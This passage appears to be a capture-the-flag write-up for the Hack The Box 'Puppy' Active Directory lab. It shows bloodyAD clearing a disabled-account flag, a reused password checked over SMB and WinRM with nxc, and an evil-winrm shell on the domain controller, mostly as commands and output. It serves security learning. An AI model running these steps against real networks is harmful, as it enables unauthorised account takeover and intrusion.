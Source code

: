 We received the `STATUS_ACCOUNT_DISABLED` error, which means that the account is disabled. Since we have `GenericAll` over the `adam.silver`, we can use `BloodyAD` to remove the disabled account flag.

```bash
bloodyAD --host DC.PUPPY.HTB -d "PUPPY.HTB" --dc-ip 10.129.16.111 -u ant.edwards -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE

[-] ['ACCOUNTDISABLE'] property flags removed from adam.silver's userAccountControl

nxc smb DC.PUPPY.HTB -u adam.silver -p 'Antman2025!'

SMB         10.129.16.111   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.16.111   445    DC               [+] PUPPY.HTB\adam.silver:Antman2025!

nxc winrm DC.PUPPY.HTB -u adam.silver -p 'Antman2025!'

WINRM       10.129.16.111   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
WINRM       10.129.16.111   5985   DC               [+] PUPPY.HTB\adam.silver:Antman2025! (Pwn3d!)
```

### Foothold

We can access the machine using `evil-winrm`

```bash
*Evil-WinRM* PS C:\> dir

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/9/2025  10:48 AM                Backups
d-----         5/12/2025   5:21 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---          4/4/2025   3:40 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----          3/8/2025   9:00 AM                StorageReports
d-r---          3/8/2025   8:52 AM                Users
d-----         5/13/2025   4:40 PM                Windows


*Evil-WinRM* PS C:\> cd Backups
*Evil-WinRM* PS C:\Backups> dir


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip
```
